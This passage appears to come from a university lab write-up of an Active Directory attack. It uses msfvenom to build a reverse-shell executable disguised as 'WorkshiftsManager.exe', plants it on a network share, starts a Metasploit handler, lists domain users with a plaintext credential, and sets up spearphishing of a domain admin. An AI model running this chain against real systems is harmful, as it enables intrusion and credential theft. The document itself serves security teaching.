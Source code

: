 <p><code>msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.0.2.15 -b "\x00" -f exe -o ./Desktop/WorkshiftsManager.exe</code></p>
<p><code>msfvenom</code> is a pre-installed payload generator and encoder available on Kali, through which we build a <code>.exe</code> file executable on all Windows devices. This payload will spawn a reverse shell client, which will connect to the reverse shell server listening on the Kali machine (<code>10.0.2.15</code>) on the default TCP port (<code>4444</code>).</p>
<p>The output of the command execution is a <code>.exe</code> file that we will find on the Kali’s desktop.<br>
The name of the executable (<code>WorkShiftsManager.exe</code>) is deliberately misleading since we want not to raise any suspicion.</p>
<p>We now need to <strong>inject</strong> the exploit into the systems. For doing so, we can easily rely on the remote desktop connection that we have already opened: we copy the executable file into the folder shared between Kali and the server; then, from the remote desktop window that controls the server, we copy the file into the network shared folder.<br>
Doing so, all the account of the organization will be able to see (and execute) that file.</p>
</li>
<li>
<p><strong>Run the reverse shell server:</strong><br>
For allowing us to take control of a machine, we obviously need to start the reverse shell server on our Kali Linux machine.<br>
For doing so, we launch the following command:</p>
<p><code>msfconsole -r ./Desktop/meterpreter.rc</code></p>
<p>where <code>msfconsole</code> is a CLI through which it is possible to interact with the Metasploit Framework and <code>meterpreter.rx</code> is a script, previously created, made up of the following commands:</p>
<pre><code>use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.0.2.15
set ExitOnSession false
exploit -j -z
</code></pre>
<p>The script, basically, starts a generic payload handler and makes it listening on the default port of the current machine for incoming connections from a <code>windows/meterpreter/reverse_tcp</code> payload, which is the one that we have injected.</p>
</li>
<li>
<p><strong>"Convince" a Domain Administrator to run the executable:</strong><br>
In order to make this whole system effectively work, we need to “convince” a domain administrator to run the executable: doing so, we will be able to communicate to a process (the reverse shell client) running with high-privileges (remember: all domain administrators are also local administrators), so we will be able to <strong>steal the credentials</strong> of the logged account.</p>
<p>To identify the target account, we run a LDAP query for listing all the domain accounts:</p>
<p><code>impacket-GetADUsers -dc-ip 10.0.2.200 -all -ts cybersec.units.it/DomainUser:User00!</code></p>
<p>Which gives the following output:</p>
<p><img src="https://github.com/AM311/Cybersecurity_Report/blob/main/img/allUsers.png?raw=true" alt="All domain accounts"></p>
<p>It seems quite obvious that <strong><code>DomainAdmin</code></strong> will be a good target, so we use the given email to send a spearphishing message:<br>